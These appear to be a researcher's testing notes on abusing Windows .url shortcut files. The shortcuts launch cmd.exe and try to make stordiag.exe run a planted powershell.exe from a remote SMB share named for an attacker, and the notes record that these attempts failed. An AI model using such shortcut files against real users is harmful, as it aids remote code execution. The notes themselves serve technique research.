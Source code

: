 # Analysis

- Tested on
	- Windows 10 1809 
	- Windows 10 1909 
	- Windows 10 21H2
	- Windows 11 23H2

- All images and scripts are from testing on Windows 10 1909.
### URL File to open CMD
```Script
[InternetShortcut]
Url=C:\Windows\System32\cmd.exe
```
- Double clicking on the url file opens cmd.

### URL file that runs stordiag.exe in a remote directory
```Script
[InternetShortcut]
URL=C:\Windows\System32\stordiag.exe
WorkingDirectory=\\Desktop-attacke\smb
```
- Does not work as expected.
- Traced the execution using procmon. 
![](Attachments/Pasted%20image%2020240801010229.png)
- Folder is being accessed by the program but `powershell.exe` file is not being run.

### URL file that runs stordiag.exe in a local directory (debugging)
```Script
[InternetShortcut]
URL=C:\Windows\System32\stordiag.exe
WorkingDirectory=C:\Users\test\Music
```
- Traced execution using procmon.
![](Attachments/Pasted%20image%2020240801010717.png)
- Folder is being accessed by the program but `powershell.exe` file is not being run.

### Additional Notes
- `powershell.exe` file is not being run by stordiag.exe
- procmon displayed "PATH NOT FOUND" error when local working directory was used in windows 11
